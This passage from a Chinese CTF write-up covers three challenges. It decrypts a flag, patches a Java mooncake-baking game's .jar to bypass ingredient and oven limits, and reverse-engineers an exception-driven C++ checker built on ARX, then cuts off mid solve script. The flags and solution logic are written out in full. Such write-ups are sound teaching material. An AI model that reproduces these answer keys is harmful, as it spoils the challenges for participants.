    prev = c

# PKCS#7 unpad
plaintext = plaintext[:-plaintext[-1]]
print(plaintext.decode())

```

得到flag

```text
susctf{Many_m4Ny_f1Ower5_d0nt_be_sc4r3d}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### 【中秋限定】玉兔的月饼工坊

> 玉兔接到了好多订单，快来帮她制作香喷喷的月饼吧😋🤤😊

啊对不起我有点红温，似乎只看到了一位师傅玩了游戏（

好吧其实游戏不是很好玩（x 虽然不好玩~~但是等待烘培的时候可以打发时光呀~~

特地让 AI 加了**（应该是轻度的？）**控制流平坦化，还是看到不少师傅头铁硬干（佩服，能不能教教我怎么速通🦆小登很想学捏

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 【中秋限定】玉兔的月饼工坊\-1

解压附件得到了一个\.jar文件，可以先了解一下对应的文件格式。

为了运行程序，需要先配置好java环境。一般而言比较稳定的是JDK17，可以优先考虑。不多赘述。

运行之后来到游戏的主界面：



今晚一共有20个订单需要完成，地图分为仓库、订单、锅炉三块，根据下方的提示，慢慢玩这个游戏即可。



单击对应的食材可以选中（右上角同步更新）。

随后我们来到锅炉进行烘培。



注意到锅炉是有温度调节的，每笔订单的温度要求不一。（第一单如果直接烘焙会显示没烤熟:D）需要通过右侧按钮进行温度调节。点击“开始烘焙”之后耐心等待一会即可。烤完之后直接返回订单页面交付即可。

玩了几关之后我们来到第6单，发现一件奇怪的事情：制作桂花月饼需要8份桂花，但是仓库一共只有7份，所以这里需要对\.jar包进行patch，通过“作弊”来获得游戏通关。

那么首先我们需要对源程序进行逆向，比较成熟好用的软件有jadx\-gui，jd\-gui。

以jadx为例。我们打开源代码：



大致扫一眼源代码可以知道GamePanel是绘制游戏的各个面板的画面和逻辑，GameState是保存当前订单、材料准备状态、锅炉等游戏状态，Ingredients是一些食材的字符串常量。

注意到Inventory:



首先我们看到reset函数里面的几个关键数字，都是仓库的原始状态。

查找reset\(\)函数的交叉引用，并递归看一眼源代码，发现直接点击“重新开工”和调用本地存档，都会将仓库初始状态重置。





所以只需要先存档，将7修改为8，重新运行游戏即可。

这里介绍一个好用的工具recaf，它的环境比较特殊，要求JDK version\>22，可以选中直接安装JDK25\.

安装好之后执行java \-jar recaf\-4x\-alpha\-linux\-86\-x64\.jar



修改之后按下Ctrl\+S，出现如图的绿线即为保存成功。

然后导出，覆盖掉之前的\.jar包，重新启动游戏，



证明patch成功，然后烘焙即可。



得到flag1

```text
susctf{Woo0WW_y0u_found_th3_l0st_ingred1ent5!!!}
```

#### 【中秋限定】玉兔的月饼工坊\-2

随后我们继续游戏，直到第12单，一眼就能发现这一次要求的温度非常高，已经超出了锅炉设置的温度上限220℃。有了前一次的经验，我们模仿上一次进行“作弊”即可。

找到Oven类，改220即可。

注意到这里还有一个if条件判断，需要一起patch掉，不然会陷入高温保护而被拦截，直接温度归零😂（比如if\(false\)）具体操作方法同前，不再赘述。

得到flag2

```text
susctf{C0ntrol-fl0w_patchin9_4nd_Che4t1ng_4re_in7ere5ting!!}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

本题当然有其它解法，比如可以追踪到SecretVault类里面有flag的密文以及有关解密逻辑，但是源码经过了一定的混淆（自写混淆），一般的deobfuscation工具无法自动化去混淆；也可以追踪本地存档的写入位置



但是这里进行了Hmac256校验，需要修改save\.dat二进制文件、绕过校验，也比较复杂。



<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 非预期

啊虽然但是这题有极速解 敬请期待官方 Writeup

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### Lost in flows

> Stare at the confusing C++ code
>
> Realize being lost in flows
>
> Can you see through the tricks
>
> Then keep up with my leading songs
>
> A, R, X, A, R, X, ...

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

根据 v4 大小 3\*16=48字节，下面的循环是12次，初步修复check如下：

```c++
bool __fastcall check(std::string *p_flag)
{
  __int64 v1; // rax
  int tmp; // eax
  _DWORD v4[12]; // [rsp+10h] [rbp-50h] BYREF
  unsigned __int64 i; // [rsp+48h] [rbp-18h]

  if ( std::string::size(p_flag) == 48 )
  {
    memset(v4, 0, sizeof(v4));
    for ( i = 0; i <= 0xB; ++i )
    {
      v1 = std::string::data(p_flag);
      tmp = load_u32_little_endian(4 * i + v1);
      v4[i] = tmp;
    }
    if ( v4[0] == 1668511091 )
      sub_40281D((__int64)v4);
  }
  return 0;
}
```

其中1668511091是0x63736573，小端序 `susc`，证明对v4的分析是对的。

可见程序非常抽象，直接返回false，那么需要细细考察整个流程，于是切换到 `sub_40281D`

```c++
__int64 __fastcall sub_40281D(__int64 a1)
{
  _DWORD *p; // rax
  unsigned int i; // [rsp+18h] [rbp-8h]
  unsigned int n1; // [rsp+1Ch] [rbp-4h]

  n1 = 1779033703;
  for ( i = 0; ; ++i )
  {
    if ( i > 2 )
    {
      p = __cxa_allocate_exception(8u);
      *p = n1;
      p[1] = 3;
      __cxa_throw(p, (struct type_info *)&lptinfo_, 0);
    }
    if ( (unsigned __int8)sub_40246D(a1, i, n1, (unsigned int)dword_403028[i]) != 1 )
      break;
    n1 = sub_4022F9(n1, *(unsigned int *)(4LL * (i + 1) + a1), i);
  }
  return 0;
}
```

其中**必然会抛出异常**（Exception\)

`__cxa_allocate_exception` 是 C\+\+ 异常运行时提供的函数

```c++
void *__cxa_allocate_exception(size_t size);
```

- 接收要抛出的异常对象大小；

- 分配一块异常运行时管理的内存；

- 返回这块内存的指针。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

而 `sub_40246D` 调用 `sub_40237A`：\(\_ROL4\_\_w即rol32\)

```c++
__int64 __fastcall sub_40237A(int a1, int a2, unsigned int n1, unsigned int i)
{
  char v7; // [rsp+18h] [rbp-8h]
  int v8; // [rsp+1Ch] [rbp-4h]

  v8 = sub_40222B(n1, i);
  v7 = sub_4022A7(n1, i);
  return a2 ^ rol32(v8 + a1, v7);
}
```

ai简单分析可知 222B 和 22A7 等价于

```c++
uint32_t relation_key(uint32_t seed, unsigned index) {
    uint32_t k =
        seed ^ (0x9E3779B9u * (index + 1u));

    k +=
        0x7F4A7C15u ^
        (0x10203041u * (index + 3u));

    return rol32(
        k,
        ((index * 5u + 7u) % 31u) + 1u
    ) ^ 0xA5A5A5A5u;
}
```

```c++
unsigned relation_rot(uint32_t seed, unsigned index) {
    return (
        (seed >> ((index & 3) * 8))
        + index * 3
        + 5
    ) % 31 + 1;
}
```

回到 22F9 函数

```c++
uint32_t advance_seed(
    uint32_t seed,
    uint32_t next_word,
    unsigned index
) {
    uint32_t v =
        seed ^
        next_word ^
        (0x6D2B79F5u * (index + 1u));

    v +=
        0x3C6EF372u +
        (0x11111111u * index);

    return rol32(
        v,
        ((index * 7u + 11u) % 31u) + 1u
    );
}
```

分析得到第一阶段流程

```c++
w[0] = 0x63737573
seed = 0x6A09E667

使用 target[0] 算出 w[1]
用 w[1] 更新 seed

使用 target[1] 算出 w[2]
用 w[2] 更新 seed

使用 target[2] 算出 w[3]
用 w[3] 更新 seed

抛出 {seed, 3}
```

接下来关心抛出的异常如何被捕获。切换到图形视角



被check\(\)接住。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

接着从 3 开始，分析 402632 函数

```c++
__int64 __fastcall sub_402632(__int64 a1, uint32_t *a2)
{
  unsigned int i; // [rsp+18h] [rbp-18h]
  uint32_t seed; // [rsp+1Ch] [rbp-14h]

  if ( a2[1] == 3 )
  {
    seed = *a2;
    for ( i = 3; i <= 5; ++i )
    {
      if ( (unsigned __int8)sub_4024C4(a1, i, seed, (unsigned int)dword_403038[i - 3]) != 1 )
        return 0;
      seed = advance_seed(seed, *(_DWORD *)(4LL * (i + 1) + a1), i);
    }
    sub_402572(a1, seed);
  }
  return 0;
}
```

首先显然是校验：第一阶段必须正确走到 stage 3。

根据之前的经验，应该进入 402572 函数。

顺手清一下花指令

```asm
.text:0000000000402591                 jz      short loc_40259B
.text:0000000000402593                 call    near ptr 405CABh
.text:0000000000402598                 ud2
.text:0000000000402598 ; ---------------------------------------------------------------------------
.text:000000000040259A                 db 0CCh
```

```c++
__int64 __fastcall sub_402572(__int64 a1, uint32_t seed)
{
  _DWORD *exception; // rax
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 6; ; ++i )
  {
    if ( i > 7 )
    {
      exception = __cxa_allocate_exception(8u);
      *exception = seed;
      exception[1] = 8;
      __cxa_throw(exception, (struct type_info *)&tinfo, 0);
    }
    if ( !sub_40251B(a1, i, seed, dword_403048[i - 6]) )
      break;
    seed = advance_seed(seed, *(_DWORD *)(4LL * (i + 1) + a1), i);
  }
  return 0;
}
```

同样往上找catch函数，



继续分析，没有发现后续的异常控制流，所以异常分析基本结束。控制流终于再次回到正常代码。

总流程如下：

```c++
v[0] = 0x63737573  // "susc"
seed = 0x6A09E667

┌──────────────────────────────────────────────┐
│ sub_40281D                                   │
│                                              │
│   i = 0   sub_40246D(v, 0, seed, target[0])      │
│       │                                      │
│       ├─ advance_seed(seed, v[1], 0)         │
│       ↓                                      │
│   i = 1   sub_40246D(v, 1, seed, target[1])      │
│       │                                      │
│       ├─ advance_seed(seed, v[2], 1)         │
│       ↓                                      │
│   i = 2   sub_40246D(v, 2, seed, target[2])      │
│       │                                      │
│       └─ advance_seed(seed, v[3], 2)         │
│                                              │
│   throw StagePacket { seed, next = 3 }       │
└──────────────────────┬───────────────────────┘
                       │ exception
                       ↓
              catch StagePacket
                       │
                       ↓
┌──────────────────────────────────────────────┐
│ sub_402632                                   │
│                                              │
│   检查 packet.next == 3                     │
│   seed = packet.seed                         │
│                                              │
│   i = 3   sub_4024C4(...)        [B]         │
│       │                                      │
│       ├─ advance_seed(seed, v[4], 3)         │
│       ↓                                      │
│   i = 4   sub_4024C4(...)        [B]         │
│       │                                      │
│       ├─ advance_seed(seed, v[5], 4)         │
│       ↓                                      │
│   i = 5   sub_4024C4(...)        [B]         │
│       │                                      │
│       └─ advance_seed(seed, v[6], 5)         │
│                                              │
│              call sub_402572(v, seed)        │
└──────────────────────┬───────────────────────┘
                       │
                       ↓
┌──────────────────────────────────────────────┐
│ sub_402572                                   │
│                                              │
│   i = 6   sub_40251B(...)        [C]         │
│       │                                      │
│       ├─ advance_seed(seed, v[7], 6)         │
│       ↓                                      │
│   i = 7   sub_40251B(...)        [C]         │
│       │                                      │
│       └─ advance_seed(seed, v[8], 7)         │
│                                              │
│   throw LanePacket { seed, next = 8 }        │
└──────────────────────┬───────────────────────┘
                       │ exception
                       ↓
              catch LanePacket
                       │
                       │   回到 sub_402632
                       ↓
┌──────────────────────────────────────────────┐
│ sub_402632                                   │
│                                              │
│   检查 packet.next == 8                     │
│   seed = packet.seed                         │
│                                              │
│   i = 8   sub_40281D(...)            [A]         │
│       │                                      │
│       ├─ advance_seed(seed, v[9], 8)         │
│       ↓                                      │
│   i = 9   sub_4024C4(...)        [B]         │
│       │                                      │
│       ├─ advance_seed(seed, v[10], 9)        │
│       ↓                                      │
│   i = 10  sub_40251B(...)        [C]         │
│                                              │
│                   ↓                          │
│              return true                     │
└──────────────────────────────────────────────┘
```

定义：

```text
a = v[i]
b = v[i+1]

K = relation_key(seed, i)
r = relation_rot(seed, i)
T = target[i]
```

- A：sub\_40246D

可以整理为：

b XOR ROL\(K \+ a, r\) = T

所以：

b = T XOR ROL\(K \+ a, r\)

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

- B：sub\_4024C4

关系为：

b \+ ROR\(K XOR a, r\) = T    mod 2^32

所以：

b = T \- ROR\(K XOR a, r\)    mod 2^32

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

- C：sub\_40251B

关系可以写成：

ROL\(a, r\) \+ \(b XOR K\) = T   mod 2^32

因此：

b = K XOR \(T \- ROL\(a, r\)\)

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

flag 的 12 个 DWORD 之间形成了一条**可逆的 ARX 状态递推链**。

最终exp如下

```python
MASK = 0xffffffff

def rol32(x, r):
    x &= MASK
    r &= 31
    return ((x << r) | (x >> (32 - r))) & MASK if r else x

